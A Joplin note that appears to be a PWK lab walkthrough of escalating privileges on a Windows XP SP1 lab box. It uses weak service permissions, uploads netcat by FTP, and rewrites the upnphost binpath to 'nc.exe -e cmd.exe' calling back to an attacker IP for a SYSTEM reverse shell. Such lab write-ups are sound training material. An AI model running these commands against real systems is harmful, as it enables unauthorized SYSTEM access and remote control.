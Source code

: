 Privilege Escalation

1. Follow the method for exploiting Win XP SP1 from [fuzzysecurity](https://www.fuzzysecurity.com/tutorials/16.html) and [sohvaxus](https://sohvaxus.github.io/content/winxp-sp1-privesc.html). Specifically for this box, I used sohvaxus.

2. Download Accesschk.exe and eula from here.
`https://xor.cat/assets/other/Accesschk.zip`
On attack machine, these files are located at `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/accesschk`
![71527c50ecddeb52c93e350ed1c28c1f.png](:/7026d217696f48679b480fe61c8ff594)

3. Transfer accesschk.exe and Eula.txt to the target via ftp. **Ensure you download in binary mode**
![b2c4d7c9cacafb42f5423a0c56b12399.png](:/5d77e3a9d74e40b9ac21add728efeaed)

4. On the target, Go to the directory where it was loaded and then query vulnerable services we can exploit.
`accesschk.exe /accepteula -uwcqv "Authenticated Users" *`
![2d8a03f5ae7a6823b646d51c796d6cb6.png](:/2ebe3da4cbcb4d2297c1c42c50437012)

5. View the SSDPSRV service
`accesschk.exe /accepteula -ucqv SSDPSRV`
![1a9f53a99SSDPSRV service
a6911e0f625fdf25215567.png](:/3a0d730f372f45f9a7ed07d794a7958f)

6. View the upnup host
`accesschk.exe /accepteula -ucqv upnphost`
![6e9f8f4457ad849480fdb1cdb29bfd98.png](:/a3f82febd59d4464a256bdbae9760931)

7. Check the parameters upnup. You'll see that it has a dependency on  SSDPSRV
`sc qc upnphost`
**Screenshot is missing**

8. Check the parameters for SSDPSRV. Notice that it is disabled.
`sc qc SSDPSRV`
![008771297bf4268db164aa1f0bd38c2c.png](:/67d1c722b0d642bf81793b9281a2c815)

9. Query status for SSDPSRV
`sc query SSDPSRV`
![b093e2def6e743007d7013cdf051ad36.png](:/21c7d15a1cd44c07b96149081857b2be)

10. Attempt to start the SSDPSRV service
`net start SSDPSRV`
![4f33eccea5646728efb11392ec7243f5.png](:/221a9330b1714a73a71194b1d9559d18)

11. Set SSDPSRV to AUTOMATIC/ **Be sure to follow the syntax which shows that there is a single space between '=' and 'auto'**
`sc config SSDPSRV start= auto`
![89db5ef8c170df2bf00fcaaea5223ad0.png](:/c4d5c0c3cdbc402bbd18a96019417ee2)

12. Double check that SSDPSRV is set to automatic
`sc qc SSDPSRV`
![ebb96f83a87129a25adcc4eaaf3b9907.png](:/3abcc51507ed40dd834c6b41be5b3376)

13. Try again to start SSDPSRV
`net start SSDPSRV`
![9144f354bcb2b81042102df424f61de5.png](:/764310a094384938894f44398ca7e70d)

14. Download netcat from here. I used the 1.12 version
`https://eternallybored.org/misc/netcat/`
On attack machine, it is located at: `/home/kali/gitWorkspace/pwk/outputFiles/active_gathering/10.11.1.14/privesc/netcat`
![f9271a36eb375d961d9bc3de332d29f3.png](:/a3a324b1de0b4dd3a95b8e2bba972100)

15. Upload nc.exe to your target via FTP. **Ensure it is in binary mode**
![46f2c85b704eae726afdad8afff6a554.png](:/38c4d3b6c83440e8bdc85cd1a49e151e)

16. Verify the path where nc.exe is located on the target. In this case: `C:\Inetpub\nc.exe`
![7dd83231d712b3567dcf7a68bb5661fe.png](:/198938cd711045f68ad7895a4ea5ab3d)

17. Set a new binary path for netcat
`sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 192.168.119.214 6789 -e C:\WINDOWS\System32\cmd.exe"`
![ca19c73880f110123e688784ccc414b9.png](:/f57ba7209e86454ca0d1400364d24c79)

18. Set object and password
`sc config upnphost obj= ".\LocalSystem" password= ""`
![9ce6aa2d0b513b72ba85dde6bb265263.png](:/142cd89be25a4cacae5d77660353c44c)

19. Set a netcat listener on attack machine
`sudo nc -lvnp 6789`
![f0de3b4e82698588e2224b05e44d5ce5.png](:/a767ebec0c3d46daa1e3ec1005d55009)

20. Check again that everything is fine
`sc qc upnphost`
![fc678f3f4d9a7efd4b0337ad200aae73.png](:/4676556a25e74095ae58b79eecd9d480)

21. Run upnphost, you'll see that you have system on the netcat listener port 6789. You'll have 30 seconds to get the proof.txt
`net start upnphost`
![f779a950a57533c9206a323a171f6937.png](:/80e8faae4608439da038bf4b80724b8e)

22. To get a shell lasting more than 30 min, follow this. **This is still a TO-DO on this box!!**
![IMG_1859.PNG](:/cf91c7e9e3e64c2b856ecb90d0072624)




id: 6625c06a83dd40a19f8a81c4b07eee10
parent_id: 21292791d7a84439990b13f099353ddd
created_time: 2020-08-26T09:02:28.199Z
updated_time: 2020-08-30T13:13:53.742Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-26T09:02:28.199Z
user_updated_time: 2020-08-30T13:13:53.742Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1